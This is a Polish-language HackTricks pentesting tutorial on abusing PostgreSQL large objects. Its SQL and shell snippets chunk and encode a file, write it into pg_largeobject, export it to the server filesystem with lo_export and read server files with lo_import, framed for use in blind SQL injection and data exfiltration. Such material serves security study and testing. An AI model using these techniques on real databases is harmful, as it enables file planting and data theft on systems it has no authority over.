 {% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### PostgreSQL Large Objects

PostgreSQL oferuje strukturę znaną jako **large objects**, dostępną za pośrednictwem tabeli `pg_largeobject`, zaprojektowaną do przechowywania dużych typów danych, takich jak obrazy czy dokumenty PDF. To podejście jest korzystniejsze niż funkcja `COPY TO`, ponieważ umożliwia **eksport danych z powrotem do systemu plików**, zapewniając dokładną replikę oryginalnego pliku.

Aby **przechować pełny plik** w tej tabeli, należy utworzyć obiekt w tabeli `pg_largeobject` (identyfikowany przez LOID), a następnie wprowadzić fragmenty danych, każdy o rozmiarze 2KB, do tego obiektu. Ważne jest, aby te fragmenty miały dokładnie 2KB (z możliwym wyjątkiem ostatniego fragmentu), aby zapewnić prawidłowe działanie funkcji eksportu.

Aby **podzielić swoje dane binarne** na fragmenty 2KB, można wykonać następujące polecenia:
```bash
split -b 2048 your_file # Creates 2KB sized files
```
Aby zakodować każdy plik w Base64 lub Hex, można użyć poniższych poleceń:
```bash
base64 -w 0 <Chunk_file> # Encodes in Base64 in one line
xxd -ps -c 99999999999 <Chunk_file> # Encodes in Hex in one line
```
**Ważne**: Podczas automatyzacji tego procesu upewnij się, że wysyłasz kawałki 2KB czystych bajtów. Pliki zakodowane w hex będą wymagały 4KB danych na kawałek z powodu podwojenia rozmiaru, podczas gdy pliki zakodowane w Base64 stosują wzór `ceil(n / 3) * 4`.

Zawartość dużych obiektów można przeglądać w celach debugowania za pomocą:
```sql
select loid, pageno, encode(data, 'escape') from pg_largeobject;
```
#### Używanie `lo_creat` i Base64

Aby przechować dane binarne, najpierw tworzony jest LOID:
```sql
SELECT lo_creat(-1);       -- Creates a new, empty large object
SELECT lo_create(173454);  -- Attempts to create a large object with a specific OID
```
W sytuacjach wymagających precyzyjnej kontroli, takich jak wykorzystanie Blind SQL Injection, `lo_create` jest preferowane do określenia stałego LOID.

Dane mogą być następnie wstawiane w następujący sposób:
```sql
INSERT INTO pg_largeobject (loid, pageno, data) VALUES (173454, 0, decode('<B64 chunk1>', 'base64'));
INSERT INTO pg_largeobject (loid, pageno, data) VALUES (173454, 1, decode('<B64 chunk2>', 'base64'));

```
Aby wyeksportować i potencjalnie usunąć duży obiekt po użyciu:
```sql
SELECT lo_export(173454, '/tmp/your_file');
SELECT lo_unlink(173454);  -- Deletes the specified large object
```
#### Używanie `lo_import` i Hex

Funkcja `lo_import` może być wykorzystana do tworzenia i określania LOID dla dużego obiektu:
```sql
select lo_import('/path/to/file');
select lo_import('/path/to/file', 173454);
```
Po utworzeniu obiektu dane są wstawiane na stronę, zapewniając, że każdy kawałek nie przekracza 2KB:
```sql
update pg_largeobject set data=decode('<HEX>', 'hex') where loid=173454 and pageno=0;
update pg_largeobject set data=decode('<HEX>', 'hex') where loid=173454 and pageno=1;
```
Aby zakończyć proces, dane są eksportowane, a duży obiekt jest usuwany:
```sql
select lo_export(173454, '/path/to/your_file');
select lo_unlink(173454);  -- Deletes the specified large object
```
### Ograniczenia

Zauważono, że **duże obiekty mogą mieć ACL** (Listy Kontroli Dostępu), co może ograniczać dostęp nawet do obiektów stworzonych przez twojego użytkownika. Jednak starsze obiekty z liberalnymi ACL mogą być nadal dostępne do eksfiltracji treści.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie dla HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podziel się trikami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów github.

</details>
{% endhint %}
